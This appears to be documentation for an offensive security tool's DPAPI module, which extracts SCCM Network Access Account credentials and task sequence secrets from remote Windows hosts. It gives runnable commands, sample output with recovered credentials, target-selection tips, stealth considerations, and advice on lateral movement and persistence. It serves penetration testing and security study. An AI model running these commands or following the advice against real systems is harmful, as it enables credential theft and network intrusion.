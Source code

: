 ```yaml
---
title: 'DPAPI Secret Extraction (dpapi)'
description: 'Extract SCCM secrets from DPAPI encrypted blobs on remote systems, including Network Access Account credentials and task sequence variables.'
icon: 'lock'
sidebarTitle: 'DPAPI Secret Extraction'
---
```


The `dpapi` module extracts SCCM-related secrets stored in DPAPI (Data Protection API) encrypted blobs on remote Windows systems. This technique recovers sensitive information including Network Access Account credentials, task sequence variables, and other SCCM secrets stored locally on client systems.

<Info>
DPAPI secrets are stored both in the WMI repository and on disk in OBJECTS.DATA files. This module can extract from both locations, providing comprehensive secret recovery capabilities.
</Info>

## Attack Overview

The DPAPI extraction process works by:

1. **Remote Authentication**: Establishing connection with local administrator credentials
2. **Secret Location**: Identifying DPAPI blobs in WMI repository and/or disk storage
3. **DPAPI Decryption**: Using system privileges to decrypt the protected data
4. **Credential Extraction**: Parsing and extracting SCCM secrets from decrypted blobs

<Warning>
This attack requires local administrator privileges on the target system. DPAPI secrets are machine-specific and can only be decrypted on the system where they were created.
</Warning>

## DPAPI Storage Locations

<Card title="SCCM Secret Storage Methods" icon="database">
SCCM stores encrypted secrets in two primary locations:

- **WMI Repository**: Active secrets stored in the WMI database (`-wmi` flag)
- **Disk Storage**: Historical and cached secrets in OBJECTS.DATA files (`-disk` flag)
- **Combined Approach**: Both locations for comprehensive extraction (`-both` flag)
</Card>

## Prerequisites

<Card title="Requirements" icon="checklist">
- Valid local administrator credentials for the target system
- Network connectivity to the target Windows machine
- Target system running SCCM client with stored secrets
- SMB/WMI access to the remote system (ports 135, 445)
</Card>
## Command Syntax

<CodeGroup>
```bash Command Format
python3 sccmhunter.py dpapi [OPTIONS]
```

```bash WMI Extraction
python3 sccmhunter.py dpapi -u domainadmin -p password -d ludus.domain -target workstation.ludus.domain -wmi
```

```bash Disk Extraction
python3 sccmhunter.py dpapi -u domainadmin -p password -d ludus.domain -target workstation.ludus.domain -disk
```

```bash Combined Extraction
python3 sccmhunter.py dpapi -u domainadmin -p password -d ludus.domain -target workstation.ludus.domain -both
```
</CodeGroup>

## Parameters

<Accordion title="Required Parameters">
| Parameter | Description | Example |
|-----------|-------------|---------|
| `-u` | Username for authentication | `domainadmin` |
| `-target` | Target hostname or IP address | `workstation.ludus.domain` |
</Accordion>

<Accordion title="Authentication Options">
| Parameter | Description | Example |
|-----------|-------------|---------|
| `-p` | Password for authentication | `password` |
| `-d` | Target domain name | `ludus.domain` |
| `-dc-ip` | Domain controller IP or FQDN | `10.10.100.100` |
| `-hashes` | NT:LM hash for authentication | `aad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76` |
| `-k` | Use Kerberos authentication | |
| `-no-pass` | Don't prompt for password | |
| `-aesKey` | AES key for Kerberos (128/256 bits) | |
</Accordion>

<Accordion title="Extraction Methods">
| Parameter | Description | Use Case |
|-----------|-------------|----------|
| `-wmi` | Extract from WMI repository | Active secrets currently in use |
| `-disk` | Extract from OBJECTS.DATA files | Historical/cached secrets |
| `-both` | Extract from both WMI and disk | Comprehensive secret recovery |
| `-debug` | Enable verbose logging | Troubleshooting and detailed output |
| `-impacket-debug` | Enable Impacket logging | Network protocol debugging |
</Accordion>

<Tip>
Use `-both` for the most comprehensive extraction, as it combines both WMI and disk methods to recover all available SCCM secrets from the target system.
</Tip>


## Usage Examples

<Accordion title="WMI Repository Secret Extraction">
**Extract active SCCM secrets from the WMI repository**

```bash
python3 sccmhunter.py dpapi -u domainadmin -p password -d ludus.domain -target workstation.ludus.domain -wmi
```

**Expected Output:**
```
[13:09:04] INFO     [*] Starting SCCM secrets extraction via WMI

[13:09:04] INFO     [+] Found NAA credentials
[13:09:05] INFO     [!] LSA hashes extraction failed: 'HashRecords'
[13:09:05] INFO             - NetworkAccessUsername: ludus\sccm_naa
[13:09:05] INFO             - NetworkAccessPassword: Password123
[13:09:06] INFO     [+] Found Task Sequence
[13:09:06] INFO             - Task Sequence: <sequence version="3.10"/>
[13:09:06] INFO             - Task Sequence: <sequence version="3.10"/>
[13:09:06] INFO             - Task Sequence: <sequence version="3.10"/>
[13:09:06] INFO             - Task Sequence: <sequence version="3.10"/>

[13:09:06] INFO     [*] WMI SCCM secrets dump complete
```

<Info>
WMI extraction recovers currently active Network Access Account credentials and task sequence variables stored in the WMI repository. This method is faster but may miss historical secrets.
</Info>
</Accordion>

<Accordion title="Disk-Based Secret Extraction">
**Extract secrets from OBJECTS.DATA files on disk for comprehensive recovery**

```bash
python3 sccmhunter.py dpapi -u domainadmin -p password -d ludus.domain -target workstation.ludus.domain -disk
```

**Use Case:** This method accesses potentially changed or deleted secrets that may no longer be available in the WMI repository but are cached in disk storage.

<Warning>
Disk extraction may take longer as it processes OBJECTS.DATA files, but it can recover historical secrets that are no longer active in WMI.
</Warning>
</Accordion>

<Accordion title="Comprehensive Extraction (Both Methods)">
**Combine WMI and disk extraction for maximum secret recovery**

```bash
python3 sccmhunter.py dpapi -u domainadmin -p password -d ludus.domain -target workstation.ludus.domain -both
```

**Benefits:**
- Recovers all active secrets from WMI repository
- Extracts historical/cached secrets from disk storage
- Provides the most complete picture of SCCM secrets on the target system
- Identifies secrets that may have been rotated or updated

<Tip>
The combined approach is recommended for thorough assessments, as it ensures no SCCM secrets are missed during the extraction process.
</Tip>
</Accordion>

## Understanding Extracted Secrets

<Card title="Types of SCCM Secrets Recovered" icon="key">
The DPAPI extraction can reveal several categories of sensitive information:

- **Network Access Account (NAA) Credentials**: Domain account used for content access
- **Task Sequence Variables**: Custom variables containing passwords and configuration data
- **Collection Variables**: Site-specific variables with embedded credentials
- **Application Deployment Secrets**: Credentials used for software installation
- **LSA Secrets**: Additional system-level credentials (when available)
</Card>

<CardGroup cols={2}>
<Card title="WMI vs Disk Extraction" icon="compare">
**WMI Repository:**
- Currently active secrets
- Faster extraction process
- Real-time SCCM configuration
- May miss historical data

**Disk Storage (OBJECTS.DATA):**
- Historical and cached secrets
- Potentially deleted/rotated credentials
- Comprehensive secret archive
- Slower but more thorough
</Card>

<Card title="Operational Security" icon="shield-exclamation">
**Detection Considerations:**
- Requires local admin access (high privilege)
- WMI queries may be logged
- File system access creates audit trails
- Network authentication generates logs
- Consider timing and stealth requirements
</Card>
</CardGroup>

## Target Selection Strategy

<Accordion title="Ideal Target Systems">
**High-Value DPAPI Targets:**
- **Workstations with frequent task sequences**: Systems that regularly receive OS deployments
- **Administrative workstations**: Systems used by SCCM administrators
- **Development/testing machines**: Often contain additional variables and secrets
- **Systems with custom applications**: May have deployment-specific credentials
- **Long-running systems**: More likely to have cached historical secrets

**Target Identification:**
- Use [`smb`](/enumeration/smb) profiling to identify SCCM clients
- Target systems with recent SCCM activity
- Focus on high-privilege user workstations
- Consider systems in different site codes for broader coverage
</Accordion>

## Troubleshooting and Error Handling

<Accordion title="Common Issues and Solutions">
**Authentication Failures:**
- Verify local administrator privileges on target
- Check network connectivity and firewall rules
- Confirm WMI/SMB service availability

**LSA Hashes Extraction Failed:**
- Normal behavior in many environments
- Focus on recovered NAA credentials and task sequences
- Not critical for overall secret extraction success

**No Secrets Found:**
- Target may not be an active SCCM client
- Try different extraction methods (-wmi, -disk, -both)
- Verify SCCM client installation and configuration
</Accordion>

## Next Steps

<CardGroup cols={3}>
<Card title="Credential Utilization" icon="arrow-right">
**Use Extracted Secrets For:**
- SMB share enumeration with NAA credentials
- Lateral movement with discovered accounts
- Additional SCCM infrastructure access
- Privilege escalation opportunities
</Card>

<Card title="Persistence" icon="clock">
**Maintain Access:**
- Document all extracted credentials
- Test credential validity across environment
- Identify additional target systems
- Establish persistent access methods
</Card>

<Card title="Coverage Expansion" icon="network-wired">
**Broaden Assessment:**
- Target multiple workstations for comprehensive coverage
- Extract from different SCCM sites
- Combine with other SCCMHunter modules
- Build complete credential database
</Card>
</CardGroup>

## Integration with Other Modules

<Card title="SCCMHunter Workflow Integration" icon="workflow">
The DPAPI module complements other SCCMHunter capabilities:

1. **Start with [`find`](/enumeration/find)**: Discover SCCM infrastructure
2. **Profile with [`smb`](/enumeration/smb)**: Identify potential DPAPI targets
3. **Extract credentials via [`http`](/exploitation/http)**: Get initial Network Access Account
4. **Use DPAPI extraction**: Recover additional secrets from client systems
5. **Escalate with [`mssql`](/exploitation/mssql)**: Leverage credentials for privilege escalation
</Card>
